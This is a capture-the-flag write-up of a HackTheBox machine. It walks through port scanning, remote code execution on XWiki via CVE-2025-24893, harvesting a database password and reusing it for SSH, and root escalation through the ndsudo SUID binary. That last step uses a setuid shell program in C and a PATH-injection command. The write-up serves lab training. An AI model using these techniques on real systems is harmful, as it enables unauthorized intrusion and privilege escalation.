


# Scanning

## Rustscan

- Rustscan revealed three open ports:
    - `22` – SSH    
    - `80` – HTTP service on the root domain `(editor.htb)`
    - `8080` – Another HTTP service running on a subdomain `(wiki.editor.htb)`


## Nmap

```bash
# Nmap 7.94SVN scan initiated Thu Aug 14 10:38:27 2025 as: 
nmap -Pn -p- --min-rate 2000 -sC -sV -oA nmap/initials -vvv 10.10.11.80

Increasing send delay for 10.10.11.80 from 0 to 5 due to 14 out of 45 dropped probes...
...
Nmap scan report for wiki.editor.htb (10.10.11.80)
Host is up, received user-set (0.31s latency).
Scanned at 2025-08-14 10:38:27 IST for 281s
Not shown: 34463 closed tcp ports (conn-refused), 31069 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  tcpwrapped syn-ack
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  tcpwrapped syn-ack
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  tcpwrapped syn-ack
|_http-server-header: Jetty(10.0.20)
```

The Nmap scan confirms what Rustscan reported, but also provides additional details about the services running behind these ports.

---

# Enumeration

- **Port 80** `(http://editor.htb)`
    - The page looked like a typical static website with nothing particularly interesting.


- **Port 8080** `(http://wiki.editor.htb/)`
    - This page revealed that the service is running **XWiki Debian 15.10.8**.
    - From here, the natural next step was to look for known vulnerabilities or exploits affecting this specific version.
        


---

# Exploitation

After some quick searching, I discovered that this version of **XWiki** is vulnerable to **RCE (Remote Code Execution)**.  
I found a working [POC](https://github.com/Infinit3i/CVE-2025-24893) and decided to adapt it for my target.
## Setting up the POC

- I customized the exploit with target-specific details.


- Testing a simple command like `id` gave me a valid response, confirming **command execution worked**.




## Getting a Service Reverse Shell

- I then moved on to getting a reverse shell for a more stable foothold.


- To make the shell interactive and stable, I upgraded it using:

```bash
/bin/bash -i
```

---

## Post-Exploitation Enumeration

- My initial thought was to look for **hardcoded credentials**, since many easy boxes hide passwords in common configuration files.  
- I asked GPT for common file names, and it pointed me to `hibernate.cfg.xml`.


- The file existed on the system:


- Inside, I found the following credentials:

```xml
<property name="hibernate.connection.username">xwiki</property>
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

- So, the credentials were:
	- **Username:** `xwiki`
	- **Password:** `theEd1t0rTeam99`
- These looked like database credentials, so I attempted to log into MySQL using them.

---

### Accessing MySQL

```sql
mysql -u xwiki -p xwiki
Enter password: theEd1t0rTeam99
```

- I successfully logged in and enumerated the databases and tables.


- Unfortunately, while I could explore the `xwiki` database, the table `xwikiusers` didn’t exist. So no direct user creds were available from MySQL.

---

## Thinking Outside the Box

- At this point, I stepped back and thought about **password reuse**.  
- I already knew of a system user named `oliver`. Out of curiosity, I tried:

```
oliver : theEd1t0rTeam99
```

- And surprisingly, it worked! 🎉
- This confirmed a **password reuse vulnerability**. While it may look like guesswork, this is actually very realistic, since many real-world systems fall victim to reused credentials.


---

## Getting User Shell via SSH

- Using the reused password, I logged in as `oliver` via SSH and captured the **user flag**.


```lua
91955630da7c314861c7b745f8c22a70
```

---

# Post Exploitation

- I proceeded with typical privilege escalation checks:
	- Running `sudo -l`
	- Searching for SUID binaries
	- Checking network connections




- At first, nothing looked promising. I also tried kernel exploits for `Linux editor 5.15.0-151-generic`, but none of them worked.


- So, I switched to `linpeas` for a deeper scan.


- Interestingly, I discovered an unusual SUID binary called `ndsudo`. I had overlooked it earlier, but this was clearly the key to privilege escalation.


---

## Understanding the Binary

- I examined `ndsudo` to understand its purpose. It allowed running specific commands, but it wasn’t a standard privilege escalation tool.


- After digging deeper (with GPT’s help), I found that it was vulnerable to **CVE-2024-32019**. A public POC was available: [CVE-2024-32019-POC](https://github.com/AliElKhatteb/CVE-2024-32019-POC).

- Although I didn’t use the exact exploit, I used it as inspiration.

---

## Gaining Root Shell

- I created a small C program that forces the UID and GID to root, then spawns a shell:

```c
#include <unistd.h>  // setuid, setgid, execl
#include <stddef.h>  // NULL

int main() {
    setuid(0);   // force UID to root
    setgid(0);   // force GID to root group
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

- Compiled it with:

```bash
x86_64-linux-gnu-gcc -o nvme exploit.c -static 
```

- Then transferred it to the target, made it executable, and exploited the `PATH` injection trick by modifying `$PATH`:

```bash
PATH=$(pwd):$PATH
```

- Finally, I executed `ndsudo` with my custom binary and popped a **root shell**. 🚀

---

